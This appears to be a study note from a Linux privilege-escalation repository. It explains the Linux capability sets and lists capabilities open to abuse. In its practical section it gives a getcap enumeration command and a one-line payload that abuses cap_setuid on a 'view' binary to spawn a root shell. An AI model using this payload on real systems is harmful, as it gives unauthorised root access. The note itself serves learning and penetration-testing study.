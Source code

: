 # Capabilities

Linux capabilities are a per-thread attribute of the root privileges that can be assigned to processes. By providing processes with capabilities, you reduce the potential damage compared to the same process running with full root privileges. Each thread has the following capability sets:

- **Effective (CapEff)**:   Represents all the capabilities used by processes. The kernel consults this set to grant or deny permissions for requested operations.
- **Permitted (CapPrm)**:   A superset of the effective capability set that includes capabilities a thread/process can add to its effective or inheritable capability sets. 
- **Inheritable (CapInh)**: Defines capabilities a parent process can pass to its child processes. This set is preserved across an [execve call](https://github.com/KayEm06/Linux-privilege-escalation/blob/main/Capabilities.md#execve-calls)
- **Bounding (CapBnd)**:    Sets a limit on the number of capabilities a process can possess.
- **Ambient (CapAmb)**:     Applies to non-SUID binaries and retains selected capabilities of a process after an execve call. The purpose of the ambient set is to allow a process to execute a program with elevated privileges to limit the number of capabilities held by each process.

The following is a list of capabilities that can be exploited.

- CAP_CHOWN: Makes arbitrary changes to file UIDs and GIDs.
- CAP_DAC_OVERRIDE: Bypasses file read, write, and execute permissions check.
- CAP_NET_ADMIN: Performs network-related operations.
- CAP_NET_RAW: Uses RAW and PACKET sockets.
- CAP_SETGID: Manipulates GIDs
- CAP_SETFCAP: Sets arbitrary capabilities on a file.
- CAP_SETUID: Manipulates UIDs
- CAP_SYS_ADMIN: Performs a range of system administration operations.

## Execve calls

An `execve` call is a function that executes a program from within a process. Whenever a process calls the `execve` function, the memory space of the process is replaced with the new program.

# Practical

I retrieve all executables with capabilities.
```
getcap -r / 2>/dev/null
```
We can use these results in conjunction with [GTFOBins](https://gtfobins.github.io/) to find if any of these binaries can have their capabilities exploited for elevated privileges.

The following payload can be inputted into the terminal to set the effective user ID to 0 (root) and execute the "/bin/sh" shell as root. 

```
home/ubuntu/view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
